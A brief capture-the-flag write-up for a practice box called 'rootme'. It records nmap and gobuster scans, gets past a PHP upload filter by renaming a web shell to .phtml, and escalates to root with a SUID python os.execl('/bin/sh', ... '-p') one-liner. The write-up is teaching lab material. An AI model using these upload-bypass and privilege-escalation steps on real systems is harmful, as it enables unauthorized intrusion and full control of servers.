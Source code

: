 rootme
ip:10.10.212.108

 nmap -sC -sV 10.10.212.108 -o 10.10.212.108_nmap.txt -v 


 PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel



# enumration 

 gobuster -u http://10.10.212.108 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o 10.10.212.108_gobuster.txt

 ```
 $ cat 10.10.212.108_gobuster.txt         130 ⨯
/uploads (Status: 301)
/css (Status: 301)
/js (Status: 301)
/panel (Status: 301)
```

i got php restriction.
(php bypass)[https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/]

i changed the file name:

└─$ mv shell.php shell.phtml

and uploaded the file sucssefuly. 


# rce 

after gettind shell i found this .bash_history

drwxr-xr-x  3 www-data www-data 4096 Aug  4  2020 .
drwxr-xr-x 14 root     root     4096 Aug  4  2020 ..
-rw-------  1 www-data www-data  129 Aug  4  2020 .bash_history
drwxr-xr-x  6 www-data www-data 4096 Aug  4  2020 html
-rw-r--r--  1 www-data www-data   21 Aug  4  2020 user.txt

```
www-data@rootme:/var/www$ cat .bash_history
cat .bash_history
id
whoami
ls
ls
cd /var
ls
cd www
ls
cat user.txt
find / -perm /4000
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
exit

```


# privilige escelation 


python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

and we are root:_ 

